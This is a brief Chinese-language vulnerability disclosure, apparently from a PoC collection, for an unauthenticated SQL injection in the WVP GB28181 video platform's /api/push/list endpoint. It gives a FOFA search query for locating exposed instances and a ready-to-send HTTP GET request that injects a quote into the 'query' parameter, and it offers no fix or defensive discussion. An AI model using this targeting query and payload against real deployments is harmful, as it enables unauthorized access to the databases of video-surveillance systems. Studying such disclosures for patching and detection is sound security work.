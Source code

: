 # WVP视频平台(国标28181)未授权SQL注入漏洞

WVP视频平台(国标28181)未授权接口/api/push/list存在SQL注入漏洞

## fofa

```yaml
body="国标28181"
```

## poc

```
GET /api/push/list?page=1&count=15&query=1'&pushing=&mediaServerId= HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
```

![image-20240723184213670](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407231842730.png)
